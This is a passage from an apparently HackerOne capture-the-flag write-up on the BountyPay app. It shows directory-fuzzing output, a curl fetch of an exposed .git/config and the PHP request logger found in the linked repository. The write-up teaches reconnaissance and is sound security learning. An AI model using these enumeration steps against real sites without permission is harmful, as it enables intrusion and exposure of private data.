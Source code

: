 ```
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response status: 404
________________________________________________

.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
images                  [Status: 301, Size: 194, Words: 7, Lines: 8]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1]
:: Progress: [4666/4666] :: Job [1/1] :: 358 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

`.git/HEAD` file seems to be interesting and bring us our first vulnerability. 

## Information Disclosure - .git directory available

Previously founded `.git/HEAD` file suggest that [Git](https://en.wikipedia.org/wiki/Git) repository were used. Checking if there's a `config` file reveals interesting information:

```
[ zoczus@ropchain:~ ]> curl "https://app.bountypay.h1ctf.com/.git/config"
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = https://github.com/bounty-pay-code/request-logger.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
        remote = origin
        merge = refs/heads/master
```

So there's a public [Github](https://github.com/bounty-pay-code/request-logger.git) repository containing one file - `logger.php`

{F861483}

```php
<?php

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```
